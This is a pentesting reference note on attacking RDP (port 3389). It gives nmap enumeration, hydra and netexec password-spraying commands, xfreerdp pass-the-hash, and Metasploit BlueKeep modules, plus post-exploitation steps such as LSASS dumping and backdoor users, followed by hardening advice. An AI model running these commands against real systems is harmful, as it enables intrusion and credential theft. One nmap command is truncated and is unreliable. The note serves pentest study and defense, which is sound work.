

# 20 - RDP (Port 3389) Pentesting

## 1. Executive Summary

Remote Desktop Protocol gives a full graphical Windows session over **TCP/UDP 3389**. It is one of the most exposed and most abused services on the internet — the leading initial-access vector for ransomware. Attack surface: credential **brute force / password spraying**, credential **reuse / pass-the-hash** (Restricted Admin mode), information disclosure via NTLM, and wormable RCE bugs — most famously **BlueKeep (CVE-2019-0708)** and the **DejaBlue** family. A single valid credential here is an interactive desktop on the host.

## 2. Protocol Overview & Architecture

RDP layers virtual channels (display, input, clipboard, drives) over a secured transport. Security can be **RDP Security** (weak, legacy), **TLS/SSL**, or **CredSSP/NLA** (Network Level Authentication — auth happens *before* a session is created, which blocks pre-auth bugs and anonymous screenshots). During the handshake the server leaks NTLM data (NetBIOS/DNS names, OS build) useful for fingerprinting.

## 3. Enumeration & Footprinting

```bash
# Encryption level, NLA status, NTLM info, MS12-020 check
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>

# BlueKeep check
nmap -p3389 --script rdp-vuln-ms17-... <IP>   # use rdp-vuln-cve2019-0708 module / msf scanner
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

# NLA detection
nmap -p3389 --script rdp-ntlm-info <IP>
```

## 4. Exploitation Deep Dive

### 4.1 Credential Brute Force / Spraying
```bash
hydra -L users.txt -P pass.txt rdp://<IP>
nxc rdp <IP> -u users.txt -p 'Winter2026!' --continue-on-success
crowbar -b rdp -s <IP>/32 -u admin -C pass.txt
```
Spray gently — RDP feeds AD lockout counters.

### 4.2 Login & Pass-the-Hash
```bash
xfreerdp /v:<IP> /u:user /p:pass /cert:ignore /dynamic-resolution
# Restricted Admin mode → pass-the-hash (no plaintext needed)
xfreerdp /v:<IP> /u:admin /pth:<NTLM_HASH>
```

### 4.3 BlueKeep (CVE-2019-0708)
Pre-auth wormable RCE on Windows 7 / 2008 R2 and earlier (when NLA is off). Reliable exploitation can BSOD the target — use with care:
```bash
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

### 4.4 MS12-020 (CVE-2012-0002)
Pre-auth DoS (and theoretical RCE) — flag, don't fire on production.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Full interactive desktop → dump LSASS, harvest creds, pivot.
- Saved RDP files / cached creds enable further lateral movement.
- Disable NLA / add a backdoor user for persistence (note as IOC).

## 7. Defense & Hardening
1. **Require NLA**; never expose RDP directly to the internet — use a VPN / RD Gateway / bastion.
2. Patch BlueKeep, DejaBlue, MS12-020 and all RDP CVEs.
3. Account lockout + MFA; restrict who can RDP (Remote Desktop Users).
4. Disable Restricted Admin where pass-the-hash is a concern; monitor 3389 logons.

## 8. Chaining Opportunities
- Cracked creds from SMB/LDAP → RDP foothold.
- Desktop session → LSASS dump → domain escalation. See **[[09 - Kerberos (Port 88) Pentesting]]**.

## 9. Related Notes
- [[22 - WinRM (Ports 5985-5986) Pentesting]]
- [[21 - VNC (Ports 5900-5901) Pentesting]]
- [[09 - RDP — Brute Force, BlueKeep, DejaBlue]]

## 10. Tools
`xfreerdp`/`rdesktop`, `nmap` rdp-*, `hydra`, `crowbar`, `netexec rdp`, `metasploit` bluekeep.
